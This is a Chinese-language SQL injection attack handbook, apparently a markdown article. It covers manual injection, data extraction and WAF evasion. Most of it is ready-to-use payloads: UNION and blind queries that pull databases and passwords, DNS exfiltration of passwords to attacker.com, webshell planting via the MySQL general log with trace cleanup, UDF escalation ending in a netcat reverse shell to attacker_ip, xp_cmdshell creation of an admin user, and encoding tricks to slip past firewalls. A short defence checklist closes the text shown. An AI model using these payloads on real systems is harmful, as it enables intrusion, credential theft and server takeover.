



# SQL注入攻击手册：原理、手工注入与高级绕过技术（深度解析）
**本文为技术研究文档，仅用于授权测试场景，未经授权的攻击行为属于违法犯罪！**

## 目录
1. [第一章：SQL注入基础原理](#第一章：SQL注入基础原理)
    - [1.1 漏洞本质与成因](#11-漏洞本质与成因)
    - [1.2 漏洞危害等级矩阵](#12-漏洞危害等级矩阵)
    - [1.3 注入类型全分类](#13-注入类型全分类)
2. [第二章：手工注入全流程详解](#第二章：手工注入全流程详解)
    - [2.1 注入点探测技巧大全](#21-注入点探测技巧大全)
    - [2.2 字段数确定高级技巧](#22-字段数确定高级技巧)
    - [2.3 信息提取全流程实战](#23-信息提取全流程实战)
3. [第三章：高阶注入技术深度解析](#第三章：高阶注入技术深度解析)
    - [3.1 报错注入全函数解析](#31-报错注入全函数解析)
    - [3.2 时间盲注高级利用](#32-时间盲注高级利用)
    - [3.3 DNS外带技术突破网络隔离](#33-dns外带技术突破网络隔离)
4. [第四章：高权限注入与系统渗透](#第四章：高权限注入与系统渗透)
    - [4.1 文件读写操作指南](#41-文件读写操作指南)
    - [4.2 系统命令执行技术](#42-系统命令执行技术)
5. [第五章：长Payload拆分与WAF绕过艺术](#第五章：长payload拆分与waf绕过艺术)
    - [5.1 WAF检测原理剖析](#51-waf检测原理剖析)
    - [5.2 高级绕过技术矩阵](#52-高级绕过技术矩阵)
    - [5.3 长Payload拆分实战](#53-longpayload拆分实战)
6. [第六章：特殊场景注入技巧](#第六章：特殊场景注入技巧)
    - [6.1 二次注入漏洞利用](#61-二次注入漏洞利用)
    - [6.2 JSON注入漏洞](#62-json注入漏洞)
    - [6.3 HTTP头注入漏洞](#63-http头注入漏洞)
7. [第七章：自动化注入工具原理](#第七章：自动化注入工具原理)
    - [7.1 sqlmap内核解析](#71-sqlmap内核解析)
    - [7.2 盲注优化算法](#72-盲注优化算法)
8. [第八章：终极防御方案](#第八章：终极防御方案)
    - [8.1 安全开发全生命周期](#81-安全开发全生命周期)
    - [8.2 防御技术矩阵](#82-防御技术矩阵)
    - [8.3 参数化查询实现示例](#83-参数化查询实现示例)
    - [8.4 应急响应流程](#84-应急响应流程)
9. [附录：SQL注入速查手册](#附录：sql注入速查手册)

## 第一章：SQL注入基础原理
### 1.1 漏洞本质与成因
SQL注入（SQL Injection）是一种将恶意SQL代码插入到应用程序输入参数中，在后台SQL服务器上解析执行的攻击技术。其根本原因在于应用程序对用户输入数据缺乏有效的验证和过滤机制，使得攻击者能够利用输入点，将恶意SQL语句嵌入到原本正常的SQL查询中。

从流程上看，正常情况下，用户输入数据会被应用程序获取，应用程序将其作为参数传递给SQL查询语句，数据库执行该查询并返回结果给应用程序，最终呈现给用户。但在存在SQL注入漏洞的系统中，当用户输入恶意数据时，应用程序没有对其进行正确处理，而是直接将其拼接进SQL语句中。例如，一个简单的用户登录验证功能，正常的SQL查询语句可能是：
```sql
SELECT * FROM users WHERE username = '$username' AND password = '$password';
```
如果攻击者在`username`输入框中输入`admin' OR '1'='1`，而应用程序没有对输入进行过滤，那么最终拼接后的SQL语句将变为：
```sql
SELECT * FROM users WHERE username = 'admin' OR '1'='1' AND password = '$password';
```
由于`'1'='1'`永远为真，这条SQL语句将绕过密码验证，直接返回`admin`用户的信息，攻击者从而实现非法登录。

漏洞产生的三个必要条件如下：
1. **动态SQL语句构造**：应用程序使用动态SQL语句来构建数据库查询，而不是使用预编译语句或存储过程。动态SQL语句在运行时根据用户输入动态生成，这为攻击者提供了可乘之机。
2. **用户输入直接嵌入SQL**：用户输入的数据未经任何处理或过滤，直接被嵌入到SQL语句中。如果输入的数据包含恶意SQL代码，这些代码将随着SQL语句的执行而被执行。
3. **缺乏有效的输入过滤机制**：应用程序没有对用户输入进行严格的验证和过滤，无法识别和阻止恶意SQL代码的输入。例如，没有对特殊字符（如单引号、双引号、分号等）进行转义或限制，使得攻击者能够利用这些字符构造恶意SQL语句。

### 1.2 漏洞危害等级矩阵
SQL注入漏洞的危害程度因攻击的影响范围和造成的后果而异，以下是一个简单的危害等级矩阵：
| 危害等级 | 影响范围   | 典型后果                                                     |
| -------- | ---------- | ------------------------------------------------------------ |
| 低级     | 单表数据   | 数据泄露，例如攻击者获取到用户表中的部分用户信息，如用户名、邮箱等。 |
| 中级     | 整个数据库 | 结构破坏，如攻击者通过SQL注入删除数据库中的重要表结构，导致数据库部分功能无法正常使用。 |
| 高级     | 服务器系统 | RCE（Remote Code Execution，远程代码执行）攻击，攻击者利用SQL注入获取数据库服务器的权限，进而执行系统命令，如创建新用户、上传恶意文件等。 |
| 灾难级   | 内网环境   | 内网渗透，当攻击者控制了数据库服务器后，以此为跳板对内网其他系统进行扫描和攻击，获取更多敏感信息，甚至控制整个内网环境。 |

### 1.3 注入类型全分类
1. **基于位置的注入**
    - **联合查询注入（Union-Based）**：利用`UNION`关键字将多个`SELECT`语句的结果合并在一起。攻击者通过构造合适的`UNION SELECT`语句，在已知原SQL查询结构的基础上，将自己的查询结果与原查询结果拼接，从而获取原本无法直接访问的数据。例如：
```sql
SELECT column1, column2 FROM table1 WHERE condition
UNION SELECT user(), database()--
```
这条语句会将原查询结果与查询当前数据库用户和数据库名的结果合并显示（前提是原查询和注入查询的字段数一致）。
    - **堆叠查询注入（Stacked Queries）**：在支持多条SQL语句同时执行的数据库系统中，攻击者可以通过分号（`;`）将多条SQL语句连接起来，在执行原SQL语句的同时，执行额外的恶意SQL语句。例如：
```sql
SELECT * FROM users; DROP TABLE users;
```
如果应用程序直接执行这条拼接后的SQL语句，将会在查询用户表的同时，删除用户表。不过，并非所有数据库都支持堆叠查询，例如MySQL的默认配置下，PHP的`mysql_query`函数不支持堆叠查询，而`mysqli_multi_query`函数支持。
2. **基于行为的注入**
    - **报错注入（Error-Based）**：通过精心构造恶意SQL语句，利用数据库函数的错误处理机制，使数据库在执行SQL语句时发生错误，并将错误信息回显给攻击者。攻击者可以从错误信息中提取敏感信息，如数据库版本、表名、列名等。以MySQL为例，使用`updatexml`函数进行报错注入：
```sql
SELECT updatexml(1,concat(0x7e,(SELECT database()),0x7e),1);
```
如果执行这条语句，`updatexml`函数会因为第二个参数的XML格式错误而报错，错误信息中会包含当前数据库名。
    - **布尔盲注（Boolean Blind）**：当应用程序无法直接回显数据库查询结果，但可以根据SQL查询的真假返回不同的页面内容（如返回正常页面或错误页面）时，攻击者可以利用布尔逻辑来判断数据。例如，通过构造`AND`条件来判断数据库中是否存在某个表：
```sql
?id=1' AND EXISTS(SELECT * FROM users)--
```
如果`users`表存在，页面返回正常；如果不存在，页面可能返回错误信息或与正常情况不同的页面内容。攻击者通过不断调整条件，如判断字段长度、字段值等，逐步获取敏感信息。
    - **时间盲注（Time-Based）**：在无法通过页面回显获取信息的情况下，攻击者利用数据库的延时函数（如MySQL的`SLEEP`函数），通过控制SQL语句的执行时间来判断条件是否成立。例如：
```sql
?id=1' AND IF((SELECT COUNT(*) FROM users)>0, SLEEP(5), 0)--
```
如果`users`表中有数据，`SLEEP(5)`函数会被执行，页面响应时间会延迟5秒；如果没有数据，页面会正常快速返回。攻击者通过这种方式，根据响应时间的差异来推断数据库中的信息。
3. **特殊场景注入**
    - **宽字节注入（GBK/Big5）**：在使用GBK、Big5等双字节编码的系统中，由于编码特性，攻击者可以利用一些字符绕过常规的SQL注入过滤。例如，在MySQL中，当使用`addslashes`函数对用户输入进行转义时，会在单引号（`'`）前添加反斜杠（`\`），变成`\'`。但如果数据库使用GBK编码，攻击者可以输入`%df`，与反斜杠组合成`%df\`，在GBK编码中，`%df\`被解析为一个汉字，从而使单引号逃逸，达到注入的目的。
    - **二次注入（Stored）**：攻击者先将恶意数据存储到数据库中，当应用程序再次从数据库中读取并使用这些数据时，恶意数据被执行，从而引发SQL注入。例如，用户注册时，攻击者在用户名中输入`admin' OR '1'='1`，注册成功后，当系统进行用户相关操作（如查询用户信息），使用了该用户名作为参数构建SQL语句时，就会触发二次注入。
    - **JSON注入**：随着JSON数据格式在Web应用中的广泛使用，当应用程序对JSON格式的用户输入处理不当，将JSON数据直接用于SQL查询时，可能会发生JSON注入。例如，前端发送一个包含查询条件的JSON数据：
```json
{"query": "1' UNION SELECT @@version -- "}
```
如果后端应用程序将`query`字段直接拼接到SQL语句中，就可能导致SQL注入。
    - **HTTP头注入**：攻击者通过在HTTP请求头（如`User - Agent`、`Referer`、`X - Forwarded - For`等）中插入恶意SQL代码，当应用程序获取这些请求头信息并用于SQL查询时，引发SQL注入。例如：
```http
GET / HTTP/1.1
Host: victim.com
X - Forwarded - For: 127.0.0.1' AND (SELECT LOAD_FILE('/etc/passwd')) AND '1'='1
```
如果应用程序将`X - Forwarded - For`字段的值用于SQL查询，就可能被攻击者利用。

## 第二章：手工注入全流程详解
### 2.1 注入点探测技巧大全
在进行SQL注入攻击之前，首先需要探测目标应用程序是否存在SQL注入漏洞以及确定注入点的位置。以下是经典探测三部曲：
1. **基础探测**：
    - 尝试在URL参数后添加单引号（`'`），如`?id=1'`。正常情况下，如果应用程序对输入进行了正确处理，不会出现异常；但如果存在SQL注入漏洞，数据库可能会因为语法错误而返回错误信息，提示单引号未闭合等问题。
    - 测试双引号（`"`），`?id=1"`，原理与单引号类似，有些应用程序对单引号进行了过滤，但可能忽略了双引号。
    - 尝试转义符（`\`），`?id=1\`，某些数据库在处理转义字符时可能存在漏洞，攻击者可以利用这一点来探测注入点。
2. **逻辑验证**：
    - 使用`AND`逻辑运算符构造条件语句，如`?id=1' AND 1=1 --+`。如果应用程序正常返回结果，说明`AND`条件被正确处理，数据库执行了完整的查询语句；接着尝试`?id=1' AND 1=2 --+`，如果此时页面返回异常或与正常情况不同的结果，说明应用程序存在SQL注入漏洞，并且可以根据返回结果判断条件的真假。`--+`是注释符，用于注释掉后面可能存在的SQL语句，确保注入语句的完整性。
3. **类型判断**：
    - 构造永真条件，如`?id=1' OR '1'='1`。如果页面正常显示，说明注入点可能存在，并且该注入点支持`OR`逻辑运算，进一步验证了SQL注入漏洞的存在。
    - 利用时间延迟函数来判断，例如在MySQL中使用`SLEEP`函数，`?id=1' SLEEP(5) --+`。如果页面响应时间延迟了5秒左右，说明注入语句中的`SLEEP`函数被执行，从而确定存在SQL注入漏洞，并且可以推断出数据库类型可能是MySQL。

### 2.2 字段数确定高级技巧
在确定存在SQL注入漏洞后，需要进一步确定目标SQL查询结果中的字段数，以便后续进行数据提取。以下是多重判定法：
1. **方法1：ORDER BY递增**：
通过`ORDER BY`关键字来指定查询结果按照某个字段排序。从1开始递增，每次增加1，直到出现错误信息。例如：
```sql
?id=1' ORDER BY 5--+
```
如果页面正常返回，说明查询结果中至少有5个字段；继续尝试`?id=1' ORDER BY 6--+`，如果此时页面出现错误，提示`Unknown column '6' in 'order clause'`等类似信息，那么可以确定查询结果中的字段数为5。
2. **方法2：UNION NULL填充**：
使用`UNION SELECT`语句，通过不断增加`NULL`值的数量来确定字段数。例如：
```sql
?id=-1' UNION SELECT NULL--+
```
如果执行这条语句页面出现错误，说明字段数可能不止1个；继续尝试`?id=-1' UNION SELECT NULL,NULL--+`，以此类推，直到页面正常返回，此时`UNION SELECT`语句中`NULL`的数量即为查询结果的字段数。例如，当执行到`?id=-1' UNION SELECT NULL,NULL,NULL,NULL,NULL--+`时页面正常，说明字段数为5。
3. **方法3：报错函数判断**：
利用一些会导致数据库报错的函数，并通过错误信息来推断字段数。以MySQL为例，使用以下语句：
```sql
?id=1' AND (SELECT * FROM (SELECT * FROM users a JOIN users b) c) --+
```
这条语句会因为`JOIN`操作导致的重复列问题而报错，错误信息中会包含一些关于字段的信息。通过分析错误信息中涉及的字段数量，也可以确定查询结果的字段数。不过这种方法相对复杂，且不同数据库的报错信息格式和内容有所差异，需要根据具体情况进行分析。

### 2.3 信息提取全流程实战
1. **步骤1：获取数据库指纹**：
使用`UNION SELECT`语句查询数据库的一些系统变量和函数，以获取数据库的相关信息，包括数据库版本、数据存储路径、当前数据库名、当前用户以及服务器主机名等。例如：
```sql
?id=-1' UNION SELECT 
@@version, /* 数据库版本 */
@@datadir, /* 数据存储路径 */
database(), /* 当前数据库 */
user(),     /* 当前用户 */
@@hostname  /* 服务器主机名 */
--+
```
执行上述语句后，页面会返回相应的信息，如数据库版本可能显示为`5.7.38 - 0ubuntu0.18.04.1`，数据存储路径可能为`/var/lib/mysql/`等。
2. **步骤2：提取所有数据库**：
在MySQL中，可以通过查询`information_schema.schemata`表来获取所有数据库的名称。使用`GROUP_CONCAT`函数将结果拼接成一个字符串返回：
```sql
?id=-1' UNION SELECT 
GROUP_CONCAT(schema_name),
NULL,NULL,NULL 
FROM information_schema.schemata--+
```
执行后，页面会返回所有数据库名，以逗号分隔，如`information_schema,mysql,performance_schema,sys,dvwa`等。
3. **步骤3：提取指定表结构**：
查询`information_schema.columns`表，通过指定`table_schema`为目标数据库名，获取该数据库中所有表的表名和列名。例如，要获取`dvwa`数据库的表结构：
```sql
?id=-1' UNION SELECT 
GROUP_CONCAT(table_name),
GROUP_CONCAT(column_name),
NULL,NULL 
FROM information_schema.columns 
WHERE table_schema='dvwa'--+
```
执行结果会返回`dvwa`数据库中所有表的表名和列名，同样以逗号分隔。例如，表名可能为`users,guestbook`等，列名可能为`user_id,username,password,avatar`等。
4. **步骤4：数据爆破（布尔盲注）**：
当无法直接获取数据时，可以使用布尔盲注的方式逐步获取敏感数据。例如，要获取`users`表中第一个用户的密码，通过判断每个字符的ASCII值来确定字符内容：

```sql
?id=1' AND ASCII(SUBSTR((SELECT password FROM users LIMIT 1),1,1))>50--+
```
如果页面返回正常，说明第一个字符的ASCII值大于50；接着调整条件，如`>70`、`>60`等，通过二分法逐步缩小范围，最终确定该字符的ASCII值，进而得到对应的字符。然后依次获取后续字符，直到完整获取密码。

## 第三章：高阶注入技术深度解析
### 3.1 报错注入全函数解析
在无法直接获取查询结果的场景下，报错注入是一种高效的信息提取方式，通过利用数据库函数的错误机制暴露敏感数据。以下是不同数据库的常用报错函数对比及实战payload构造：

| 函数                 | 数据库     | 原理                                                         | 最大输出 |
| -------------------- | ---------- | ------------------------------------------------------------ | -------- |
| updatexml()          | MySQL      | 利用XML解析错误，当第二个参数包含非法XML格式时触发报错       | 32字符   |
| extractvalue()       | MySQL      | 基于XPath语法错误，传入不符合XPath规范的字符串引发错误       | 32字符   |
| geometrycollection() | MySQL      | 几何数据类型处理错误，向该函数传入SQL查询结果导致格式异常    | 64字符   |
| pg_sleep()           | PostgreSQL | 虽为延迟函数，但可结合条件判断构造报错场景（需配合其他函数） | 无限制   |
| dbms_xmlgen.getxml() | Oracle     | XML转换错误，将查询结果转换为XML时因格式问题报错             | 200字符  |

**实战payload构造**：
- **MySQL updatexml()注入模板**：
```sql
?id=1' AND updatexml(1, 
  CONCAT(0x7e, 
    (SELECT MID(GROUP_CONCAT(table_name),1,31) 
     FROM information_schema.tables 
     WHERE table_schema=DATABASE())
  ,0x7e),1) --+
```
其中`0x7e`是波浪号`~`的十六进制编码，用于分隔查询结果与错误信息。由于`updatexml()`最大输出32字符，当数据过长时需使用`MID()`函数分片提取。

- **Oracle多层嵌套突破限制**：
```sql
?id=1' AND (SELECT UPPER(XMLAGG(XMLELEMENT(e, column_name||',')).EXTRACT('//text()') 
FROM all_tab_columns WHERE table_name='USERS') FROM DUAL 
WHERE 1=CTXSYS.DRITHSX.SN(1,(USERENV('SESSIONID'))) --+
```
通过`XMLAGG()`和`XMLELEMENT()`函数拼接多个结果，突破单条报错的字符限制，适用于提取长数据。

### 3.2 时间盲注高级利用
时间盲注通过控制SQL语句的执行时间差异判断条件真假，适用于无任何回显的场景。以下是精准延时控制技术及实战案例：

- **基础延时判断**：
```sql
?id=1' AND IF(ASCII(SUBSTR(database(),1,1))>100, SLEEP(3), 0) --+
```
通过`IF()`函数构造条件，若数据库名首字符ASCII值大于100，则延迟3秒响应，否则正常返回。

- **动态延时绕过阈值**：
```sql
?id=1' AND IF(ASCII(SUBSTR(database(),1,1))>100, 
  BENCHMARK(10000000,MD5('test')), 0) --+
```
使用`BENCHMARK()`函数重复执行`MD5('test')`运算实现延时，相比`SLEEP()`更隐蔽，可规避WAF对固定延时的检测。

- **PostgreSQL条件响应延迟**：
```sql
?id=1'; SELECT CASE WHEN (SELECT COUNT(*) FROM users)>0 
  THEN pg_sleep(5) ELSE pg_sleep(0) END -- 
```
通过`CASE`语句实现条件分支，当`users`表存在数据时延迟5秒，适用于PostgreSQL数据库。

### 3.3 DNS外带技术突破网络隔离
当数据库所在服务器无法直接出网但允许DNS解析时，可利用数据库函数发起DNS请求，通过监控域名解析日志获取数据。

- **SQL Server DNS外带**：
```sql
?id=1'; DECLARE @q VARCHAR(1024); SET @q=(SELECT TOP 1 table_name FROM information_schema.tables); 
EXEC('master..xp_dirtree "\\'+@q+'.attacker.com\"') --
```
利用`xp_dirtree`函数访问远程共享目录时会进行DNS解析，将查询到的表名拼接到域名中，攻击者通过查看`attacker.com`的DNS日志即可获取数据。

- **MySQL DNS外带（需load_file权限）**：
```sql
?id=1' UNION SELECT LOAD_FILE(CONCAT('\\\\',(SELECT password FROM users LIMIT 1),'.attacker.com\\test')) --
```
`LOAD_FILE()`函数访问UNC路径时会触发DNS查询，将密码明文拼接到域名中，适用于高权限MySQL环境。

## 第四章：高权限注入与系统渗透
### 4.1 文件读写操作指南
当数据库用户具备`FILE`权限时，可通过SQL注入实现跨平台文件读写，以下是主流数据库的操作方法：

- **跨平台文件读取**：
  - **MySQL**：
```sql
UNION SELECT LOAD_FILE('/etc/passwd'),2,3 -- 读取Linux系统用户文件
UNION SELECT LOAD_FILE('C:/Windows/win.ini'),2,3 -- 读取Windows配置文件
```
  - **PostgreSQL**：
```sql
COPY (SELECT ''||pg_read_file('/etc/passwd')) TO '/tmp/output' -- 读取文件到临时目录
```
  - **SQL Server**：
```sql
CREATE TABLE data (line varchar(8000)); -- 创建临时表
BULK INSERT data FROM 'c:\windows\win.ini'; -- 导入文件内容
SELECT * FROM data; -- 查看文件内容
```

- **Webshell写入技术对比**：

| 方法         | 适用数据库 | 成功率 | 特点                                                         |
| ------------ | ---------- | ------ | ------------------------------------------------------------ |
| UNION写文件  | MySQL      | 高     | 需知道Web绝对路径，语法：`UNION SELECT '<?php ...>' INTO OUTFILE '/var/www/html/shell.php'` |
| OUTFILE语句  | MySQL      | 中     | 依赖`secure_file_priv`配置，默认仅允许特定目录写入           |
| 日志文件注入 | 通用       | 高     | 通过修改数据库日志路径，将SQL语句写入日志文件生成Webshell    |
| 错误日志利用 | SQL Server | 低     | 需开启错误日志功能，通过触发错误将代码写入日志               |

**实战：MySQL日志注入Webshell**：
```sql
1. 设置日志路径为Web目录：
   SET global general_log_file='C:/xampp/htdocs/shell.php';
   
2. 开启通用查询日志：
   SET global general_log=on;
   
3. 执行包含恶意代码的查询：
   SELECT '<?php system($_GET[cmd]);?>'; -- 代码将被写入日志文件
   
4. 清理痕迹：
   SET global general_log=off; -- 关闭日志记录
   SET global general_log_file='C:/xampp/mysql/data/general.log'; -- 恢复路径
```

### 4.2 系统命令执行技术
通过SQL注入获取系统命令执行权限是高级渗透的关键步骤，以下是主流数据库的提权方法：

- **MySQL UDF提权全流程**：
```markdown
1. 检测插件目录：
   SELECT @@plugin_dir; -- 获取UDF文件存放路径，如`/usr/lib/mysql/plugin/`
   
2. 上传恶意UDF文件：
   将预编译的`udf.so`（Linux）或`udf.dll`（Windows）通过十六进制注入写入插件目录：
   UNION SELECT binary 0x7F454C46... INTO DUMPFILE '/usr/lib/mysql/plugin/udf.so'
   
3. 创建系统函数：
   CREATE FUNCTION sys_exec RETURNS int SONAME 'udf.so'; -- 注册执行命令函数
   
4. 执行系统命令：
   SELECT sys_exec('nc -e /bin/sh attacker_ip 4444'); -- 反弹Shell
```

- **SQL Server扩展存储过程利用**：
```sql
-- 启用xp_cmdshell组件
EXEC sp_configure 'show advanced options',1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell',1;
RECONFIGURE;

-- 执行系统命令
EXEC xp_cmdshell 'net user hacker P@ssw0rd /add'; -- 创建系统用户
EXEC xp_cmdshell 'net localgroup administrators hacker /add'; -- 提升为管理员
```

## 第五章：长Payload拆分与WAF绕过艺术
### 5.1 WAF检测原理剖析
现代WAF（Web应用防火墙）通过多层检测机制拦截SQL注入攻击，其核心流程如下：



- **规则匹配层**：基于特征库拦截包含`UNION`、`SELECT`、`DROP`等关键词的请求。
- **语法分析层**：对请求中的SQL片段进行语法解析，识别异常结构（如多层嵌套、特殊函数调用）。
- **行为分析层**：通过统计请求频率、参数变化规律等，识别自动化注入工具的扫描行为。

### 5.2 高级绕过技术矩阵

| 技术类别   | 具体方法                                                     | 适用场景          |
| ---------- | ------------------------------------------------------------ | ----------------- |
| 编码混淆   | HEX编码：`UNION`→`0x554E494F4E`；URL编码：`SELECT`→`%53%45%4C%45%43%54`；Unicode编码：`'`→`%u0027` | 关键词特征过滤    |
| 语法分割   | 内联注释：`UNION/*!50000SELECT*/`；换行符：`UNION%0ASelect`；Tab符：`UNION%09SELECT` | 语法结构检测      |
| 等价替换   | 函数替换：`version()`→`@@version`；运算符替换：`OR`→`||`；逻辑替换：`=``LIKE` | 规则匹配拦截      |
| 逻辑干扰   | 无意义条件：`AND 1=1`→`AND (1=1 OR 2=3)`；冗余函数：`SELECT`→`SELECT/**/1/**/FROM` | 简单语法分析      |
| 协议级绕过 | 分块传输：将Payload拆分到多个HTTP分块；参数污染：`id=1&id=2' UNION...` | WAF与后端解析差异 |

### 5.3 长Payload拆分实战
当完整Payload被WAF拦截时，需通过拆分和变形绕过检测：

**原始Payload（被拦截）**：
```sql
UNION SELECT NULL,table_name,column_name 
FROM information_schema.columns 
WHERE table_schema=DATABASE()
```

**绕过方案1：注释分割法**：
```sql
UNION/**/SELECT/*!50000NULL,
/*!table_name*/,/*!column_name*/ 
FROM information_schema./*!columns*/ 
WHERE table_schema=/*!DATABASE*/()
```
通过`/**/`和`/*! */`内联注释分割关键词，规避连续关键词检测。

**绕过方案2：编码混淆+空白符干扰**：
```sql
U%0a%09NION%0dSELECT%a0
NUL%4cL,TABLE%5fNAME,
COLUMN%5fNAME%20 
FRO%0bm info%0for%0dmation_schema.colu%6dns
```
结合URL编码（`%0a`换行、`%09`Tab）和部分字符编码（`_`→`%5f`），打乱关键词结构。

**绕过方案3：函数嵌套+逻辑干扰**：
```sql
UNION SELECT 
IF(1=1,NULL,NULL),
REVERSE(SUBSTRING(REVERSE((SELECT table_name 
FROM information_schema.tables LIMIT 1)),1)),
(SELECT column_name FROM (SELECT 1,2,3 
UNION SELECT * FROM information_schema.columns) t 
WHERE 1=1 AND 2=2)
```
通过`REVERSE()`和`SUBSTRING()`嵌套变形，结合子查询干扰WAF语法分析。

## 第六章：特殊场景注入技巧
### 6.1 二次注入漏洞利用
二次注入指恶意数据先被存储到数据库，后续被程序读取并拼接SQL执行时触发注入，常见于用户注册、资料修改功能：

```markdown
1. 注册阶段：提交包含恶意代码的用户名`admin'-- `
   数据库存储的用户名实际为`admin'-- `（单引号未被过滤）
   
2. 触发阶段：管理员执行"修改密码"操作，后端执行SQL：
   UPDATE users SET password='new_pass' 
   WHERE username='$_POST[username]'
   
3. 实际执行的SQL：
   UPDATE users SET password='new_pass' 
   WHERE username='admin'-- '
   注释符`-- `导致后续条件被忽略，成功修改`admin`用户密码
```

### 6.2 JSON注入漏洞
随着API接口广泛使用JSON格式，若后端直接拼接JSON数据到SQL查询，将引发注入：

```json
POST /api/search HTTP/1.1
Content-Type: application/json

{"query": "1' UNION SELECT @@version -- "}
```

**防御缺失场景**：后端PHP代码直接拼接JSON参数：
```php
$json = json_decode(file_get_contents('php://input'), true);
$sql = "SELECT * FROM products WHERE name = '".$json['query']."'";
```
此时注入代码会被直接执行，可通过常规注入流程提取数据。

### 6.3 HTTP头注入漏洞
部分应用会读取HTTP头信息（如`X-Forwarded-For`、`User-Agent`）并用于日志记录或SQL查询，导致注入：

```http
GET / HTTP/1.1
Host: victim.com
User-Agent: Mozilla/5.0' AND (SELECT 1 FROM users WHERE username='admin') -- 
X-Forwarded-For: 127.0.0.1' OR 1=1 -- 
```

**实战利用**：若应用记录访问日志时执行SQL：
```sql
INSERT INTO logs (ip, user_agent) VALUES ('$ip', '$ua')
```
注入代码会被写入日志表，若日志表后续被查询且未过滤，将触发二次注入。

## 第七章：自动化注入工具原理
### 7.1 sqlmap内核解析
sqlmap作为主流自动化注入工具，其核心工作流程如下：



- **指纹识别**：通过发送特定Payload判断数据库类型（MySQL/PostgreSQL/Oracle等）和版本。
- **注入点探测**：对URL参数、表单字段、HTTP头进行自动化测试，确定可注入位置。
- **注入方式选择**：根据回显情况自动选择最优注入方式（回显/报错/盲注）。
- **数据提取**：从数据库元信息（`information_schema`）到具体数据（用户表、密码等）逐层提取。
- **提权尝试**：检测是否可通过UDF、存储过程等方式执行系统命令。

### 7.2 盲注优化算法
盲注需逐字符猜解数据，效率较低，sqlmap采用二分法优化猜解过程：

```python
def binary_search(sql, position):
    low, high = 32, 126  # ASCII可见字符范围
    while low <= high:
        mid = (low + high) // 2
        # 构造条件Payload：判断第position位ASCII值是否大于mid
        payload = f"ASCII(SUBSTR(({sql}),{position},1))>{mid}"
        if send_request(payload):  # 发送请求并判断响应
            low = mid + 1  # 条件为真，调整下限
        else:
            high = mid - 1  # 条件为假，调整上限
    return chr(mid)  # 返回猜解的字符
```

通过二分法将每次猜解的可能性从128种压缩到7-8次判断，大幅提升盲注效率。

## 第八章：终极防御方案
### 8.1 安全开发全生命周期
SQL注入防御需贯穿软件开发全流程，形成闭环防护：



- **需求分析**：明确数据交互场景，识别潜在注入风险点。
- **安全设计**：采用参数化查询、ORM框架等安全方案，避免动态SQL拼接。
- **安全编码**：遵循编码规范，对输入进行严格过滤和验证。
- **漏洞测试**：通过自动化扫描（如AWVS）和手工测试检测注入漏洞。
- **安全部署**：配置数据库最小权限，启用WAF和SQL防火墙。
